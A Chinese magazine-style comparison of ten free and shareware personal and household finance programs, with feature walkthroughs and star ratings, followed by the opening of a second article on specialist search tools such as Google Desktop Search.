评价一款优秀的个人与家庭理财软件，我们认为可以从以下几个方面着手：

- （1）良好的软件管理界面

一个漂亮的软件界面就像一个漂亮的个人钱包一样，应该尽量美观大方、操作方便、简单实用，这样用户才可能产生使用它的冲动。而且，在理财的过程中，一个设计良好的界面也反映了清晰的理财思路。因此，理财软件的界面必须尽量简明易懂，尤其是在数据处理的流程上要尽量清晰、明确，这样，用户才能放心使用软件。

- （2）具备基本的理财功能，包括账簿管理、财务管理等

随着国内金融市场的发展和个人金融需求的多样化，个人理财业务的范围逐步拓宽，品种逐步丰富，并开始由单一的储蓄业务向多元化的银行资产、负债、中间业务一体化发展。理财的过程就是运用各种理财工具如储蓄、融资、银行卡、个人支票、保险箱、保险、证券、外汇、基金、债券等相结合，提出适合的理财方案，使客户安排家庭的理财方案、安排家庭收入和支出，实现个人资产的最优配置。因此，对于一款优秀的理财软件来说，首先必须在基本的理财功能做到出类拔萃。

> 小知识：账簿是一套完整的财务资料的集合。简单来说，账簿好比记录所有财务数据的记录本，在其中登记了各种账户及其详细交易记录等。

- （3）灵活的数据处理功能，包括数据管理、统计、财务计划等

一个优秀的理财工具应该是一个优秀的理财支持专家。当用户处理财务记录时，有时会需要对外进行各种数据的交换，例如银行账户交易的批量下载记录、曾经用Office Excel制作的收支记录表等等。若是理财软件支持此类数据交换，即可更为方便快捷地进行操作。

> 小知识：账户是理财软件中最基本的财务单元。所有的资产、负债以及投资活动都通过账户来进行统一管理。账簿就是由所有这些账户所组成。

在家庭财务活动（投资理财事务）中，有许多可预期的、或者周期性的事务，我们把这种事务的活动规律可定义为一种计划，叫做财务计划。通过把这些计划设置到软件中，可以由软件到期提醒或自动处理。

- （4）实用简单的辅助工具和实时更新的联网功能

在具备基本理财功能的基础上，优秀的理财软件还应该能够尽量提供一些丰富的辅助工具。好比用户个人的百宝工具箱，当需要某功能时，可以随时取出，方便地满足自己的需求。在联网时，用户可以从网站下载更新股票收盘价、开放式基金净值、外汇汇率、人民币与外汇存款利率、证券交易费率等公共数据，以及用户的网银账户信息与交易记录等。这些功能有助于用户了解实时的、最新的信息，从而更好地做出理财决策。

### 2. 个人与家庭理财软件大阅兵

可见，个人和家庭投资理财的根本目的就是家庭财产保值增值，或者叫财富最大化。所以，科学的理财就是要善用钱财，使家庭财务状况处于最佳状态。结合上述评价标准，以及安全因素、软件下载量、是否免费、有无插件、用户评价等参数，下面选择了十款优秀的个人与家庭理财软件，列举如下（表1）：

表 1 个人与家庭软件

| 软件名称 | 大小 | 授权 | 插件 | 下载地址 |
|---|---|---|---|---|
| 家财通普及版 V2.30 sp1 | 7466 KB | 免费版 | 无 | http://www.mymoneymaster.com/ |
| 实创个人理财系统 V1.50 | 25561 KB | 免费版 | 无 | http://www.chinasoft.com/ |
| 天天理财 V1.0 | 3617KB | 免费版 | 无 | http://www.licai8.net/ |
| 理财好轻松 V1.05 | 1172 KB | 免费版 | 无 | http://www.licaiclub.com/ |
| 家庭理财王 V2.47 | 2096 KB | 免费版 | 无 | http://www.skycn.com/soft/10196.html |
| 财易家庭理财 2007 V2.01 | 33524KB | 共享版 | 无 | http://www.51plan.cn/ |
| 财智家庭理财 V5.40 | 14586 KB | 共享版 | 无 | http://www.imoney.com.cn/ |
| AceMoney V3.9.3 | 1662 KB | 共享版 | 无 | http://www.mechcad.net/downloads/ |
| 翼南家庭理财 V3.30 | 1083 KB | 共享版 | 无 | http://www.wingsofts.com/ |
| 新锐家庭理财 V1.2(2003) | 1426KB | 共享版 | 无 | http://www.jklnsoft.com/cn |

通过上述列表，可以看到，优秀的家庭理财软件往往没有插件或其他广告的骚扰。相对而言，共享版在功能上更加丰富，而免费版则显得更加绿色、实用。下面，分别对优秀的相关理财软件进行分析和讲解。

## 二、免费版个人与家庭理财软件

相对于共享版，免费或绿色版本的优势十分明显。毕竟，用户不希望在使用一段时间以后，自己的财务数据突然受到功能上的限制。下面选择了“家财通”、“实创个人理财系统”、“天天理财”、“理财好轻松”、“家庭理财王”等软件进行讲解。

### 1. 家财通普及版V2.30 sp1

推荐指数：★★★★★

“家财通”是一套适合于个人／家庭的投资理财软件，它能跟踪家庭经济状况的变化，合理配置家庭资产、达到保值增值的目的，以及最终实现财富的最大化目的。软件和家庭财富网（http://www.mymoneymaster.com）紧密的联系在一起。最近，“家财通”推出了普及版免费注册活动，用户安装软件后可以直接注册，获取免费普及版的序列号。

- （1）用户安全登录和界面设计

使用之前，需要注册用户资料，建立个人账户。“家财通”默认界面和 Windows XP 下的 IE 浏览器风格比较类似。主界面上边是标题与快捷按钮区，主界面左边是理财栏目与理财频道窗口区，主界面下边是状态提示区。软件和 IE 窗口十分类似，还支持自定义工具栏，支持在线下载皮肤。

登录家庭首页后，可以看到最上面部分的财务概要，整个界面设计的十分科学有序。这实际上是一个图形化的资产负债表：16 个图形分别按类别统计了资产负债的数值。左边两列是资产类：现金及活期、定期存款、债权；右边一列是负债类：债务、信用卡；下面两行是总计：资产总计、负债总计、净资产。通过此财务概要，用户对自己的资产负债情况一目了然。同时，点击任意一个图形可直接进入此类账户的详细界面。如果此类资产或负债当前还没有账户，则自动调用新建账户程序。登录后的软件界面如图 1 所示。



- （2）基本理财功能及典型理财案例

“家财通”涵盖了与家庭相关的日常财务活动，包括：日常收支、住房、汽车、物品、储蓄、保险、债权、债务、贷款、股票、基金、收藏及其他投资等等。在“家财通”中，一套账簿就是一个单独的数据库文件，可以新建、删除、备份与恢复。每套账簿都有唯一的名称，并设置了安全保密机制。用户可以建立一个或若干个登录账号，并设置密码。

小技巧：一般来说，一个家庭拥有一套账簿即够了。但也可以建立多套账簿，如按家庭成员分别建账，或者按年度建账等。每套账簿完全独立，互不影响。在多套账簿中，可以选择一套常用或重要的账簿为首选账簿。

下面，以典型的家庭理财为例，测试软件的各项功能。

- ①对家庭账户的进行分析

根据家庭投资理财活动的属性不同，家财通把账户分成：现金／银行类、投资类、资产／债权类、负债／税务类。其中，每个大类下又有各种小类。如现金／银行类包括了：现金账户、活期存款账户、信用卡账户、个人支票账户、定期存款账户、多户卡账户等。通过这些账户的设置，能分门别类、高效合理地管理家庭财务。

- ②新建账户

这实际上就是整理家庭资产、负债的过程。通过建立正确、完整的账户，用户的资产、负债情况就已基本清晰。在本例中，以新账户 cfan 为例。

- ③收支记账，也就是添加收入和支出记录

收支记账就是把日常收入、支出等所有财务活动准确及时地记入账簿，这也是家庭投资理财管理软件的基础。新添收支记录就是输入一笔或连续输入多笔日常收支记录，等同于实际记账操作，如图 2 所示。



- ④账户转账

转账之前，首先确定是从当前账户转入还是转出。转入表示从其他账户转资金到当前账户，转出表示从当前账户转资金到其他账户。两账户之间有一绿色的箭头形象的指示方向。

小知识：所谓账户转账就是在同币种的现金活期类账户之间进行资金的划转（不同币种之间的转账叫兑换）。

- ⑤其他操作

“家财通”还提供了丰富的其他财务操作功能。例如，通过拆分收支功能把某笔交易金额分配到多项收支类目下，通过分摊收支功能把某笔费用或收入平均分摊到每月（或每年/每季/每周/每天）中，到期自动入账，使用十分方便。上述操作完成后，可以看到详细的账户列表，如图3所示。



- ⑥查看账户统计分析

在收支记账界面右下部分显示了当前账户的统计分析图，其统计范围为选择的日期段。统计显示是实时进行的。通过这些统计分析图，用户可以全面透彻地了解此账户的情况。可通过右键菜单选择统计图形，其中包括：账户基本统计图、账户收入比例图、账户支出比例图、月收支对比图、月余额走势图、月收支差额走势图等。单击“理财栏目”下的“收支记录”按钮，如图4所示。


- （3）数据处理、报表和财务计划功能

通过上面的典型案例，我们已经熟悉了基本的个人、家庭财务操作。但有时候我们也希望有更加个性化的服务，尤其是数据处理方面。“家财通”支持导入、导出整套账簿或用户自定义选择，若仅需导入、导出日常账目记录也可直接选择此项菜单命令。在程序的外部数据导入功能中用户可选择数据项分隔符，还有非常明细的转换选项。

在记录查询功能上，可筛选条件十分丰富，通过这些功能，用户可以了解更加详细的信息。

报表中心集中处理所有的财务报表、投资报表，以及各种列表和清单。“家财通”可生成6个报表和21个列表清单。所有的报表和清单文件都是以标准的HTML网页格式生成，可通过WEB浏览器显示、另存和打印。

在“家财通”中，计划列表界面显示了当前账簿中的所有计划列表，同时可显示具体某项计划的详细时间进度表。单击“计划”菜单下的“新建财务计划”，就可以新加一条固定收支计划。如：每月的工资收入、每月的房租支出、每年的健身会费支出等等。此外，还可以添加事务提醒，如：父母的生日（可按每年提醒一次设置）、年底预定的校友会等。单击“理财栏目”下的“财务计划”，如图5所示。



- （4）辅助工具和联网功能

“家财通”的辅助工具包括：理财工具包括理财日记、理财计算器、普通计算器等。在收费的专业版中，还包括很多其他的辅助工具。在联网方面，软件支持联网下载网银交易记录，支持中国工商银行、建设银行、农业银行、招商银行等，能够自动更新股票、基金、外汇行情等。

总的来看，软件功能十分齐全，其结构的严谨、设计的专业、操作的顺畅，都是通过简易、美观、生动、协调的界面来表现的。使用软件能够轻松管理用户的资产与负债，定制投资组合，制定理财目标与财务计划，而且还有理财工具进行辅助。加上目前推出的免费注册普及版活动，这都使这款软件充满了吸引力，是一款值得推荐的优秀理财软件。总体评价表格如下：

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
|----------------|--------------|----------------------|----------------|----------|
| ★★★★★        | ★★★★★        | ★★★★★               | ★★★★★         | ★★★★★   |

### 2. 实创个人理财系统V1.50

推荐指数：★★★☆☆

“实创个人理财系统”使用方便、操作简单，能够帮助用户有效地管理个人资产，提高工作效率和业绩。第一次使用软件时，需要维护家庭成员管理、收支分类维护、物品分类维护等信息，使账户更加符合自己的要求。

- （1）用户安全登录和界面设计

默认的用户Admin口令为空，用户登录后可以修改密码，数据安全、系统保密性比较强。登陆后，可以看到软件界面采用了淡蓝色风格，整体美观大方，界面操作很直观，栏目分类比较清晰，如图6所示。

软件的主菜单包括：“账簿管理”、“收支记账”、“汇总图表”、“理财日记”。中间界面包含了详细的分类功能。使用默认密码登录后，可以在“账簿管理”中修改密码，如图7所示。





图6

- （2）基本理财功能

图7

基本的理财功能包括：个人账户管理、个人收支管理、个人借贷管理功能，实现个人借贷信息的管理、收支分类维护、物品管理、资料管理等。其中，收支管理维护是一项收入、支出明细科目的设置管理。将常用的收支原因添加录入后，系统会将其保存到相应的项目，然后自动归类到收入或者支出栏，可以减少输入所需的时间。此外，软件还提供了股票账户管理功能，添加股票账户时需要有一个银行账户与之关联。

- （3）数据处理、报表和财务计划功能

软件提供了数据备份和恢复功能，单击“系统功能”菜单下的相关选项即可实现。在报表方面，只提供了查询功能，反映资金的收支状况，没有图表显示。系统还具有手工或自动数据备份恢复功能。另外，软件还提供了账务提醒功能。

- （4）辅助功能和联网功能

软件提供了丰富的辅助功能。包括：股票投资收益计算、存款计算器、资料管理、个人所得税计算、万年历查询等。联网功能方面，提供了在线技术支持，但在金融理财方面的服务不太多。

总的来看，软件功能比较实用，在账户管理方面很灵活，提供了丰富的报表功能，而且还能进行股票和证券方面的管理。缺点在于不能添加新用户，在管理操作方面还略显繁琐。比较适合希望进行一般账户管理、对辅助工具要求比较高的用户。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
|---|---|---|---|---|
| ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ |

### 3. 理财好轻松V1.05

推荐指数：★★★☆☆

- （2）基本理财功能

软件以“收入”和“支出”为主要处理对象。在收支管理中，可以进行“日常收支记账”、“收支分类项目”等操作。在收支分类项目中，单击相关分类即可进行添加、删除或修改等操作。

- （3）数据处理、报表和财务计划功能

软件提供了数据备份、恢复功能，单击“账簿管理”下的“数据备份”或“数据恢复”，即可进行操作。在报表方面，提供了“收支对比图”、“月平均收支图”、“每月支出对比图”。没有提供财务计划方面的功能。

- （4）辅助功能和联网功能

在理财助手中，有理财日记、数字计算器等，功能比较简单。没有提供联网功能。

总的来看，软件简单直观，功能完全免费，较好的处理了账户的收入和支出管理问题。比较适合希望进行收入和支出账户管理的用户。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
|---|---|---|---|---|
| ★★★★☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ |

### 4. 天天理财V1.0

推荐指数：★★★☆☆

天天理财V1.0由鑫财网络推出，软件功能十分简单实用，而且完全免费。对于仅仅希望进行收支记账管理的用户来说，是一个不错的选择。

- （1）用户安全登录和界面设计

软件界面设计比较简洁，但部分功能需要联网进行更新。相对而言，理财功能显得比较单一，很多功能需要登录网站才能实现，界面按钮的重复比较多。

- （3）数据处理、报表和财务计划功能

软件包括理财账户智能图表分析等功能，可以对个人现金、信用卡、存款、投资、借款等信息进行管理。可以进行理财规划和国内理财产品查询，真正帮助用户进行账户增值理财。此外，软件还支持日程提醒功能，以免错过重要事件。

- （4）辅助功能和联网功能

在理财工具板块中，天天理财软件提供了理财计算器、生活工具大全、理财网址导航和模拟金融投资小游戏。

总的来看，软件功能比较简单，记账功能比较实用，最大的优势在于完全免费。比较适合于只希望进行日常简单账务记录的用户。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
| --- | --- | --- | --- | --- |
| ★★★★☆ | ★★★☆☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |

### 5. 家庭理财王 V2.47

推荐指数：★★★☆☆

“家庭理财王”使用方便快捷，支持多用户独立操作，具有自动密码保护功能。能够支持账户查询，整体功能比较丰富。

- （1）用户安全登录和界面设计

软件支持多用户操作，第一次运行“家庭理财王”时，用户需要选择“新建”按钮，建立新用户。软件最大的问题在于界面设计不符合操作习惯，中间界面比较空，而且利用率很低，加上众多意义不太明确的图标，用户很容易陷入软件界面的“迷魂阵”，如图9所示。



- （2）基本理财功能

软件的理财功能比较丰富，支持日常支出录入、借入收入录入、借出支出录入、借出返还收入录入、还贷支出录入、股票收益录入、股票支出录入等功能。

- （3）数据处理、报表和财务计划功能

在数据统计方面，支持综合统计、股票收益统计、借出返还统计、日常支出统计、借入还贷统计等功能。没有提供数据备份和财务计划等功能。

- （4）辅助功能和联网功能

查询功能比较丰富，包括日常支出、一般收入、借出支出、借入收入、还贷支出查询、借出返还、股票买入等查询。没有提供联网服务。

总的来看，软件功能比较细致，提供了详细的查询功能，而且完全免费。但界面操作不太方便。比较适合于只希望进行简单账务管理和查询的用户。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
| --- | --- | --- | --- | --- |
| ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ |

## 三、共享版个人与家庭理财软件

对于理财要求比较高的用户来说，使用共享理财软件可以得到更多的功能服务。尽管在功能上有一定的限制，但共享类软件显得更专业，提供的服务也更具有针对性。下面，选择了五款共享类个人／家庭理财软件进行功能测试，供用户参考。

### 1. 财易家庭理财2007 V2.01

推荐指数：★★★★★

财易家庭理财 2007 软件在广受用户好评的“新生活家庭理财”软件的基础上进行了全新设计。它延续了易用性和界面友好的特点，采用最新的微软 Visual Studio 2005 平台进行开发。

- （1）用户安全登录和界面设计

能够实现多用户、多账簿管理。软件运行后，首先要创建一个新的账簿，选择账簿的名称和想要保存数据文件的地址。登录后，可以看到软件界面美观而且十分友好，提供了“蓝色经典”和“专业灰色”两种风格，如图10所示。



- （2）基本理财功能

登录后，可以先增加相关账户，比如：现金账户，活期银行账户、信用卡等。账户增加完成后选择“日常收支”窗口，点击右键选择“新增收支”等记账操作。在新建账户时，软件提供了多种选择，使用十分灵活。例如，建立现金账户时，可以按家庭成员分别建立现金账户，也可按用途分别建账，如生活备用金、重大支出金等。此外，软件还可以进行股票账户、房地产投资账户、债权账户、债务账户、实物资产账户、定期存款账户等方面的管理，如图11所示。

#### （3）数据处理、报表和财务计划功能

所有数据都可以集中进行处理，管理起来十分方便。软件提供了丰富的查询功能，可以将数据导出为Excel或TXT文件。退出软件之前，会自动提示是否保存数据。另外，还可以“新增普通提醒”或“新增收支计划”，根据设定的时间能够自动提醒。软件没有提供报表功能，如图12所示。

#### （4）辅助功能和联网功能

辅助功能包括理财计算器、家庭物品、记事本和日记等。在线服务包括：联网自动更新股票、基金、汇率等资料，银行交易记录联网下载自动导入记账。总的来说，软件功能简明扼要，运行速度很快，可以针对不同类型的账户进行管理，尤其是可以提供实时的股票、债券等方面的数据，理财筹划等功能也很细致周到。另外，软件提供了各种不同类型的服务方案，如幸福家庭、富足人生、小康之路、奔向阳光灿烂的日子、21世纪的幸福生活、无产阶级宣言、月光族的灿烂历程等，用户适用范围十分广泛。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
|----------------|----------------|------------------------|------------------|------------|
| ★★★★★ | ★★★★★ | ★★★★☆ | ★★★★★ | ★★★★★ |

### 2. 财智家庭理财 V5.40

推荐指数：★★★★☆ 财智家庭理财软件是一款个人家庭财务软件。它能全面管理日常收支、储蓄、个人贷款、保险、外汇、国债、开放式基金、证券投资，能通过互联网与您的开户银行连接并获得相关数据，并配有家庭金融顾问功能，服务很具人性化。软件可供多用户使用而互不干扰，适应了不同家庭成员的需要。

#### （1）用户安全登录和界面设计

软件登录时需要输入用户名和密码，免费试用期为15天。“财智家庭理财”的界面典雅大方而富有现代气息，按钮设计精致漂亮且动感十足。而且根据用户的操作习惯，可选择经典或时尚两种风格界面。软件还内置了其它多款皮肤，用户可按需随意切换。软件左侧的导航栏十分方便，用户可以轻松切换到“记账”、“计划”、“报表”、“工具”等栏目，查看十分方便。

在财务首页中，可以一目了然地查看总资产、负债与计算出的净资产。还可以用更直观的饼状图查看资产、债权或债务的构成。在投资中心也可查看类似形式的基金、股票、国债与外汇的投资损益。软件界面如图13所示。

#### （2）基本理财功能

软件能够管理日常收支、储蓄、贷款、保险及各种投资。

-   ① 新建账簿
    单击“账簿文件”菜单下的“新建 / 打开账簿”选项，在弹出的对话框中，选择安装目录下Data文件夹中的账簿，打开即可。

-   ② 进行记账管理
    “财智家庭理财”以账户为核心对各种财务记录分类进行管理。在“记账”菜单下，点击“收支流水账”，将展示该账簿中所有建立的收支账户（隐藏账户除外），在进行收支记录时可以直接点击到该界面进行操作。收支流水账的界面如图14所示。
    小技巧：软件账户类型包括了：现金、活期存款、信用卡、定期、一卡通、活期一本通、定期一本通、双币信用卡、家居物品、重大资产、贷款与借款、商业保险、社保等。

于家庭投资理财方面，该软件提供了包括股票收盘价、开放式基金净值、外汇汇率等财经数据的及时联网更新功能，用户足不出户即可了解到自己关心的财经数据，整体服务十分专业和周到。

总的来看，软件功能十分详细，账户管理、报表、理财筹划等功能也十分强大。但是，过于强大和专业的理财功能对于普通用户来说，可能适得其反。而且，软件运行过程中速度会感觉明显降低，对于普通用户来说还有一定难度。因此，本软件比较适合于对账户管理专业性要求比较高的用户。

在软件中可以记录不同性质的财务活动。首先需要建立所需的账户，例如用户有一个活期存折或储蓄卡，则可以建立一个活期存款账户与之对应。然后，点击“新建账户”功能，系统会以提问的形式，引导用户完成各种账户的建立。建账完毕，双击某个账户就进入了该账户的功能界面，就可以开始输入和管理该账户下的各种财务记录了。

#### （3）数据处理、报表和财务计划功能

软件支持将账簿数据导出为“.XML”格式，也可将Excel表格导入至程序中。在执行导入或导出操作时，可自定义选择数据选项。系统对账簿进行整理时，会自动对账簿进行诊断，检查是否存在损坏，以便帮助我们及时修复账簿，减少账簿损坏的隐患。另外，还可以进行备份、恢复操作。

在财务报表中，包括了收入与支出、资产与债务、证券投资、外汇交易与其它几个综合走势的统计分析项目，报表类型十分丰富。通过各项统计分析，有助于用户从“全局”了解自己的资金流向、收益增幅等趋势，还可帮助用户投资决策。单击左侧的“报表”栏，选择“收支统计栏”下的“日常收支表”，即可看到相关报表。在报表上方，点击“图形”选项卡，可以看到如图15所示的饼图。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
| --- | --- | --- | --- | --- |
| ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ |

### 3. AceMoney V3.9.3

推荐指数：★★★☆☆

这是美国 Mechcad 软件公司的一套家庭理财软件，它可以帮助用户组织和管理个人财务，支持的语言包括：英语、荷兰语、法语、意大利语、立陶宛语、波兰语、葡萄牙语、俄语、西班牙语、瑞典语、乌克兰语、匈牙利语、土耳其语等，支持家庭所需的所有特征，甚至小企业会计。使用起来十分方便。

#### （1）用户安全登录和界面设计

软件界面采用了清爽的淡色调，看上去给人一种宁静沉稳的感觉。上方列出了主要的功能按钮，点击后即可直接进入相关界面，如图16所示。

#### （2）基本理财功能

“理财筹划”显示了已执行和未执行的计划。单击“记账”菜单下的“理财筹划”，即可进入计划制定区和计划监控执行区。在定期存款到期日，系统会自动提醒；在零存整取、整存零取、教育储蓄的每月存、取款日期，系统也会自动提醒。

Acemoney 可以管理多种不同类型的账户，包括：支票、储蓄、信用卡、贷款、债务等，用户甚至可以创造专门账户种类。通过 Acemoney，用户可以方便的制作日记账，例如：银行往来、日常生活收支、信用卡收支、存款等数据。由于软件采用美国标准，因此用户使用时需要根据国内情况进行适当的设置，例如，将银行数据修改为国内银行，或者直接添加。另外，软件有许多预定的费用分类，可以为每项类别编列预算限制并追踪实际和预算之间的盈亏差额。

#### （3）数据处理、报表和财务计划功能

软件数据能够定期备份、还原，使用起来十分方便。软件支持报表功能，包括常规报告、类别报告、收款人报告、预算报告等。可以用月历的形态，依照类目或收款人产生分类报表，或者按照每月收支情况列出来，结合方便的图形分析，使用户一眼就可以看出食衣住行的收支情况。如图17是一个支出圆饼图。

在财务计划方面，软件通过表格和日历结合的方式，提供了丰富的交易提示、存款提示等功能。单击“计划”按钮，在表格界面中可以看到详细的交易记录。切换到“日历”界面，在具体的日期上面显示了详细的交易记录，双击即可看到相关信息。

#### （4）辅助功能和联网功能

辅助功能包括个人所得税、整存整取计算器、零存整取计算器、贷款计算器、证券目标收益和价格计算器。对于家庭投资理财方面，该软件提供了包括股票收盘价、开放式基金净值、外汇汇率等财经数据的及时联网更新功能，用户足不出户即可了解到自己关心的财经数据，整体服务十分专业和周到。

软件的辅助工具十分好用，尤其是对于需要进行外汇账户管理的用户来说，使用“汇率”工具更加得心应手。此外，还提供了各种计算器，包括贷款计算器、储蓄计算器、抵押计算器等。在联网功能上，可以从网上银行下载信息，下载最新的汇率等，如从在线银行下载并更新QIF、OFX格式的数据。

总的来看，软件在家庭理财方面的功能十分丰富，尤其是软件支持超过150种不同货币的汇率兑换运算，并能从网上下载最新数据。因此，对于不同币种的账户管理十分方便。丰富的图表功能也进一步增加了软件的吸引力。比较适合持有外币的用户。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
| --- | --- | --- | --- | --- |
| ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ |

### 4. 翼南家庭理财 V3.30

推荐指数： ★★★☆☆

翼南家庭理财也是一款专为个人及家庭设置的理财软件。收入支出中支持多种设置，如日期、人员、方式、来源、类型、地点等，支持多种货币出入账。

#### （1）用户安全登录和界面设计

“翼南家庭理财”的界面比较强调质感，默认色调稍微有点黯淡，不过软件内置的皮肤视觉效果很精美，而且可供选择的类型有很多，用户可以根据自己的喜好进行选择。

#### （3）基本理财功能

在该程序中可进行日常收支、借贷、资产、投资管理与查询，还支持多种货币出入账，并能自动换算为统一货币。相对于上述几款共享软件，该程序的财务管理功能要薄弱一些，例如收支项目无法汇总查看也不支持多级分支。此外，还可以储存各种固定资产的详细信息，如住房、汽车、银行存款及其他家庭资产，如图18所示。

以根据自己的需要对收入、支出记录只显示部分列信息，可以把主界面窗口列表中的内容导出到txt或xls文件中。程序统计分析项目比较单一，包括收支、资产与债务相关统计与对比图，不过它能够为各个统计项目自由选择图表类型。

#### （4）辅助功能和联网功能

辅助功能包括：证件管理、通讯录管理、人民币／外币利息计算器、所得税计算器等。共享版本没有提供联网升级功能。

总的来看，软件功能虽显繁杂但仍然比较实用，能够进行一般的日常账务管理，支持多币种换算，报表功能也十分丰富，比较适合普通家庭用户。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
| --- | --- | --- | --- | --- |
| ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ |

### 5. 新锐家庭理财 V1.2

推荐指数： ★★☆☆☆

“新锐家庭理财”的界面很清晰，尤其是图标的使用，使整个财务情况一目了然。

#### （1）用户安全登录和界面设计

软件的工具条比较有特色，主要由“类别切换条”和“资产状态提示条”组成。其中，“通用工具条”可供用户在不同的资产类别等界面间任意切换；“资产状态提示条”可以动态地显示当前的现金余额、总资产额。用户录入数据并保存后，最新的数据也可以马上显示出来，如图19所示。

#### （2）基本理财功能

在“日常收支”界面，用户可以对家庭的日常收入与支出进行记账管理、统计等操作。左边的三个大按钮分别是收支列表、统计和搜索。点击“收支列表”按钮后，右侧列表会显示出用户日常收支的记录，并能够任意添加、修改和保存记录。

-   (3) 数据处理、报表和财务计划功能
    软件提供了数据备份和恢复功能。点击左侧的“统计”按钮后，可以设置参数对日常收支记录进行统计，如“每月的支出”，“每年的工资收入”等。统计结果以列表方式显示，也可以点击左侧的“饼图”、“柱图”按钮切换显示方式。软件没有提供财务计划功能。

-   (4) 辅助功能和联网功能
    辅助功能只提供了计算器，没有提供联网功能。

总的来看，软件最大的特点在于界面清晰，基本理财功能也很实用。在其他方面没有太多的功能干扰，适合于进行简单账务管理的普通个人或家庭用户。

| 安全登录、界面 | 基本理财功能 | 数据处理、报表和计划 | 辅助和联网功能 | 总体评价 |
| :--- | :--- | :--- | :--- | :--- |
| ★★★★☆ | ★★★★☆ | ★★★☆☆ | ★★☆☆☆ | ★★★☆☆ |

#### 表 2 个人与家庭理财软件功能总结

| 软件名称 | 授权 | 总体功能评价 |
| :--- | :--- | :--- |
| 家财通普及版 V2.30 sp1 | 免费 | ★★★★★ |
| 实创个人理财系统 V1.50 | 免费 | ★★★★☆ |
| 理财好轻松 V1.05 | 免费 | ★★★★☆ |
| 天天理财 V1.0 | 免费 | ★★★★☆ |
| 家庭理财王 V2.47 | 免费 | ★★★☆☆ |
| 财易家庭理财 2007 V2.01 | 共享 | ★★★★★ |
| 财智家庭理财 V5.40 | 共享 | ★★★★☆ |
| AceMoney V3.9.3 | 共享 | ★★★★☆ |
| 翼南家庭理财 V3.30 | 共享 | ★★★☆☆ |
| 新锐家庭理财 V1.2 | 共享 | ★★★☆☆ |

V2.01”在功能和界面上表现也十分不错，比较适合收入较高，具有多种理财品种的个人或家庭用户。“财智家庭理财V5.40”在功能上比较专业，甚至可以适用于小型企业，比较适合专业理财用户。对于希望进行外币账户管理的用户来说，可以选择AceMoney。对于普通用户来说，可能更看重收支记账等功能，可以尝试使用“实创个人理财系统V1.50”、“理财好轻松V1.05”或“翼南家庭理财V3.30”、“新锐家庭理财V1.2”等理财软件，通过这些软件的使用，逐步提高理财能力。

## 四、小结

通过上面的功能对比分析，结合软件授权方式，可以得到如下结果：

通过上述比较，可以看到“家财通普及版V2.30 sp1”和“财易家庭理财2007 V2.01”具有十分明显的优势。尤其是“家财通普及版V2.30 sp1”在免费软件中更是一枝独秀，这和该软件的开发背景有很大的关系。“财易家庭理财2007

总之，现代社会是经济时代，或者叫财富时代，衡量一个人的主流价值标准就是财富。现代英雄就是财富英雄！因此，理财也是一种生存能力和获取财富的技能，只有不断增强投资理财的意识与追求财富的观念，才能在资源竞争越来越激烈的现代社会中更快更早地获得成功。通过上述软件的帮助，加上坚持不懈的努力，用户肯定可以在个人或家庭财务上获得大丰收。

# 精准快：专业搜索工具使用教程

文 / 彭文波

随着网络的普及，搜索引擎的价值已经逐步得到人们的广泛认可。不过，目前的搜索引擎已经不再局限于仅仅搜索网站页面，而是朝着“精、深、准”的专业方向发展。例如，百度推出了新闻、MP3、图片、文档、黄页等，Google也推出了新闻、图片、论坛、大学、学术论文、图书等搜索引擎技术。只要切换到相应的页面，输入想要搜索的关键字，就可以在数以万计的网站中找到自己需要的资料。搜索引擎进一步的细化，分类更加明确，从而使我们操作起来更加方便，搜索准确度也进一步的加强。除了百度和Google，现在还出现了很多优秀的专业搜索工具和网站，它们能够帮助用户搜索更加准确的信息。本专题正是从这个角度出发，通过多种搜索工具和搜索技巧的结合，探索专业搜索带来的另一番新天地。

## 一、近在咫尺：本地文件专业搜索工具

在数据储存量越来越大的今天，本地搜索工具带给我们的好处是：任何人都可以在极短的时间里，从自己的电脑数据中找到所需要的东西；甚至还可以对本地邮件系统、即时通讯等组件中的内容进行检索。本地搜索的特点是：通过预先建立索引表，在加载桌面搜索工具后，用户就可以使用浏览器来搜索本地计算机中的内容了。

-   1. Google desktop search V5.0
    软件下载地址：http://desktop.google.com

    Google desktop search不但可以以闪电般的速度找出硬盘上的文件，而且能够搜索Outlook和Outlook Express中的电子邮件、TXT文件、HTML页面、Excel和PowerPoint文件、AOL和AIM的聊天记录，以及正在Internet Explorer中浏览的页面。

    ### （1）建立索引
    软件安装后，双击软件图标，即可看到桌面搜索界面。在下方，可以看到几排黄色的字体：“一次性索引编制进行中”。这说明，当软件刚安装完成时，必须建立文件索引才能发挥出桌面搜索软件的惊人的搜索速度。打开任务管理器，我们可以发现几个以“Google”开头的进程，为了提高索引效率，该进程会随搜索程序启动，在进行索引建立过程中占据大量的CPU使用率。软件界面如图1所示。

    ### （2）设置搜索范围
